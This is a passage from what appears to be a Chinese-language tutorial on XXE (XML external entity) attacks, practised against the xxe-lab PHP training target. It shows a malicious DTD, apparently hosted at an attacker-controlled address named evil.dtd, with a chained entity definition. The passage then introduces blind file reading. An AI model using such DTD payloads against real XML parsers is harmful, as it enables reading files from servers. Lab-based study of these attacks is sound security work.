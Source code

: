 ```
http://192.168.220.128/evil.dtd
内容：
<!ENTITY all "%start;%go;%end;">
```

![image-20211128153053373](XXE.assets/image-20211128153053373.png)

#### 4.2、文件读取（无回显）

[xxe-lab](https://github.com/c0ny1/xxe-lab)的php靶场演示：

我们将源码的输出代码注释掉，将错误信息也不显示

![image-20211128155332496](XXE.assets/image-20211128155332496.png)

